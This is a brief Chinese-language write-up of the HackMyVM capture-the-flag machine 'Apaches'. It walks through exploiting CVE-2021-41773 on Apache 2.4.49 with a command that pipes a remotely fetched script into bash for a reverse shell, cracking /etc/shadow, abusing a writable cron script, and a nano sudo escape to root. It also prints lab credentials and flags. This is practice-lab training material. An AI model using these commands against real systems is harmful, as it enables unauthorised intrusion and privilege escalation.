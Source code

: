 # Apaches

2025.03.26 https://hackmyvm.eu/machines/machine.php?vm=Apaches

[video]()

## Ip

192.168.5.39

## Scan

22 和 80

发现 Apache/2.4.49 有 RCE 漏洞 CVE-2021-41773 ：

```
searchsploit -m 50383
./50383.sh targets.txt /bin/bash 'curl http://192.168.5.3/shell/5.3/8888.sh|bash'
```

拿到 shell，发现/etc/shadow 可读，john 进行破解，发现用户凭据 squanto:iamtheone 登陆

crontab 中有一个注释是一个暗示，pspy 发现 sacagawea 用户 /bin/bash /home/sacagawea/Scripts/backup.sh 定时执行，当前用户同属 Lipan 组，有修改权限：

反弹后，拿到 user flag：

```
Flag: FlagsNeverQuitNeitherShouldYou
```

得到用户凭据：

```
~/Development/admin$ cat 2-check.php

 $users = [
    "geronimo" => "12u7D9@4IA9uBO4pX9#6jZ3456",
    "pocahontas" => "y2U1@8Ie&OHwd^Ww3uAl",
    "squanto" => "4Rl3^K8WDG@sG24Hq@ih",
    "sacagawea" => "cU21X8&uGswgYsL!raXC"
  ];
```

使用这个凭据可切换到 "pocahontas" => "y2U1@8Ie&OHwd^Ww3uAl"

sudo -l 显示 (geronimo) /bin/nano 还是需要切换到最后一个用户：

```
sudo -u geronimo nano
^R^X
reset; sh 1>&0 2>&0
```

执行后，sudo 有 ALL 权限，直接 sudo su 拿到 root flag：

```
Flag: OneSingleVulnerabilityAllAnAttackerNeeds
```

